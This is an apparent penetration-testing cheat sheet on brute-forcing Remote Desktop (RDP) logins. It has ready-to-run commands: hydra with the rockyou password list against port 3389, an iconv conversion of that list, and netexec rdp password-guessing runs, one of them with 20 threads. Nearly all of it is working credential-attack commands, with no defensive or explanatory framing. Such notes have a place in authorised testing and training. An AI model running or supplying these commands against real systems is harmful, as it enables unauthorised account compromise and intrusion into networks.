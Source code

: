 # RDP
### hydra
```
hydra -l user -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.0.0
```
### netexec
```
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt -o /tmp/rockyou-utf8.txt
```

use default
```
netexec rdp 192.168.x.x -u user -p /tmp/rockyou-utf8.txt
```

thread 20
```
netexec rdp 192.168.x.x -u user -p /tmp/rockyou-utf8.txt -t 20
```
